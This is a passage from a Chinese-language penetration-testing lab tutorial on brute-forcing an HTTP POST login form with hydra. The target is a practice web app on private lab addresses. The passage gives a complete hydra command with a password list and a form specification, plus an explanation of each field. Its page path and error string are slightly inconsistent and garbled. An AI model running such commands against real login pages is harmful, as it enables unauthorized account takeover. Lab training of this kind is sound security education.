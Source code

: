 ![img](assets/wps6-1690339415758-6.jpg) 

## 3.6.**HTTP协议爆破**

### 3.6.1.**靶机信息**

Kail攻击机：192.168.10.20

windows10靶机：192.168.10.150

页面地址：/dvwa/login.php

### 3.6.2.**开始爆破**

在HTTP协议中存在POST与GET方式进行提交。

#### 3.6.2.1.**POST方式爆破**

```
命令：hydra -l admin -P passwd.txt -t 6 -vV -e ns 192.168.10.150 http-post-form "/pikachu/vul/burteforce/bf_form.php:username=^USER^&password=^PASS^&submit=login:username or password is nois not exists～" 
```

```
解释：后面的http-post-form是定义在http中使用post进行提交，后面的/pikachu/vul/burteforce/bf_form.php是访问的URL，而且后面的username与password是根据抓包获取到的格式，至于里面的^USER^和^PASS^是固定格式，再后面的login是报错信息。
```

![img](assets/wps7-1690339415758-7.jpg) 
